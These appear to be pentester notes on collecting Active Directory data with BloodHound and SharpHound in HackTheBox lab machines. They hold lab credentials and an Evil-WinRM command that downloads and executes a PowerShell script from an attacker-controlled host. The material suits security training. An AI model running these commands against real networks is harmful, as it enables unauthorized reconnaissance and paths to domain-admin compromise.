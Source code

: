 # BloodHound

## Run BloodHound remotely with python

```
sudo apt install bloodhound
sudo pip install bloodhound-python
bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d EGOTISTICAL-
BANK.LOCAL -ns 10.10.10.175 -c All
```



### **SharpHound**

With my shell, I’ll run [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) to collect data for [BloodHound](https://github.com/BloodHoundAD/BloodHound). I’ve got a copy of Bloodhound on my machine (you can use `git clone https://github.com/BloodHoundAD/BloodHound.git` if you don’t). I’ll start a Python webserver in the `Ingestors` directory, and then load it in to my current session:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> iex(new-object net.webclient).downloadstring("http://10.10.16.12:8080/SharpHound.ps1")
*Evil-WinRM* PS C:\Users\Administrator\Desktop> upload /home/kali/tools/SharpHound.ps1
```

Now I’ll invoke it:

{% hint style="danger" %}
!!! invoke-bloodhound works only with the first command above. "iex"
{% endhint %}

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```

The result is a zip file:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> dir


    Directory: C:\Users\svc-alfresco\appdata\local\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/8/2022   1:43 PM          15242 20220208134327_BloodHound.zip
-a----         2/8/2022   1:43 PM          23725 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin

```

## **Start/run BloodHound**

```
kali@kali:~$ sudo neo4j console

```

Log in at http://127.0.0.1:7474/ with username/password “neo4j”/"sameoldpass”

Run `bloodhound` from a new terminal window

Click on the “Upload Data” button

Under “Queries”, I’ll click “Find Shorter Paths to Domain Admin”. Select Pathfinding

![](<../../.gitbook/assets/image (22).png>)

###
